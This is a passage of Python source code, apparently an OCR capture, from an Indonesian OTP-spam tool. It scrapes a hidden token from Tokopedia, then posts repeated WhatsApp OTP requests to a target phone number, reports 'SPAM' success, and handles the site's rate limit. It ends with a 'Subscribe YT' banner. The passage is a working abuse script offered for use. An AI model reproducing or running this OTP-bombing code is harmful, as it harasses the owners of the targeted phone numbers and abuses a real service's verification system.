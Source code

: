 search = re.search(r'\<input\ id\=\"Token\"\ value\=\"(.*?)\"\ type\=\"hidden\"\>', site).group(1)

data = {

'otp_type' : '116',

'msisdn' : number,

'tk' : search,

'email' : '',

'original_param' : '',

'user_id' : '',

'signature' : '',

'number_otp_digit' : '6',

} 

sleep(30) # Jangan Di Rubah Nilai Sleepnya, Itu Udah Default.

sending = requests.post('https://accounts.tokopedia.com/otp/c/ajax/request-wa', headers = headers, data = data)

if 'Anda sudah melakukan 3 kali pengiriman kode' in sending.text:

print

print(''+W+'Pengiriman Sudah Limit\nSilahkan Coba 25 - 60 Menit Lagi :)')

break

else:

print(''+C+'['+W+'*'+C+']'+W+' SPAM KE NOMOR '+C+number+W+' BERHASIL DIKIRIMKAN !')

except ConnectionError:

print

print(M+'Cek Koneksi JaringanMu Gan !')

break

except NameError:

print

print(M+'Jumlah Harus Berupa Angka, Bukan Huruf !')

break

                   

                   

def Spam():

os.system('clear')

print(C+'Subscribe YT'+W+' Gua Dlu Su !'+C+' :V')

sleep(1.5)
